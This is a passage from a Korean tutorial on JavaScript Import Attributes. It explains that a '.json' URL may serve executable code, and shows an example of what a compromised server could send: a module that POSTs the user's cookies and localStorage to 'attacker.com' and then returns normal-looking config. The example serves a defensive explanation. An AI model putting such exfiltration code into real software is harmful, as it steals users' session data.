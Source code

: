 ```js
// Re-exporting with attributes
export { data } from './data.json' with { type: "json" };

// Web Worker instantiation
new Worker("processor.wasm", {
  type: "module",
  with: { type: "webassembly" }
});
```

<br/>

### 👉 속성을 가져오는 이유는?

핵심 문제는 **보안**입니다. 

웹에서 파일 확장자는 콘텐츠를 안정적으로 나타내지 않고, `.json`으로 끝나는 URL은 실제로 Javascript를 제공할 수 있습니다.

```js
// API설정 로드 중
import apiConfig from './api-config.json';

// 예상되는 데이터 형식
{
  "apiKey": "secret-key",
  "endpoint": "https://api.example.com",
  "timeout": 5000
}

// 손상된 서버가 대신 보낼 수 있는 데이터
export default (function(){
  // API키를 공격자에게 전송
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie, // 사용자의 쿠키 정보
      localStorage: window.localStorage // 로컬스토리지 정보
    })
  });

  // 그런 다음 정상적인 설정처럼 보이는 데이터를 반환
  return {
    apiKey: "secret-key",
    endpoint: "https://api.example.com",
    timeout: 5000
  }
})();
```

<br/>

❗ **`Import Attributes`는 모듈 시스템을 더 정확하고 안전하게 만듭니다.** JSON모듈은 코드를 실행할 수 없고, 순수한 데이터 입니다.

모듈을 `type: 'json'`으로 표시하면 JSON 데이터나 오류를 받게 되며, 실행 가능한 코드는 절대 나오지 않습니다.
